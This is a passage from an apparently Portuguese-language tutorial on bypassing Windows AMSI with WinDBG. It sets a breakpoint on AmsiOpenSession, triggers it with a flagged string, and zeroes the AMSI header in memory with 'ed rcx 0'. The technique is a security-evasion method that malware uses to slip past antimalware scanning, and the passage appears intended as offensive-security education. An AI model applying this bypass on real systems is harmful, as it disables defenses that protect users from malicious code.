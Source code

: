 ```bash
bp amsi!AmsiOpenSession
```

Logo em seguida, resumimos a execução

```bash
g
```

Depois mandamos por exemplo a string que o amsi alerta, ‘amsiUtils’. Logo após isso, o breakpoint sera ativado:

<img src="/assets/img/AMSIBYPASS (7).png">

Agora ultilizando o comando **ed** do WinDBG, vamos escrever no endereço de memória e apagar o cabeçalho onde esta escrito AMSI

```bash
dc rcx L1
ed rcx 0
dc rcx L1
```

<img src="/assets/img/AMSIBYPASS (8).png">

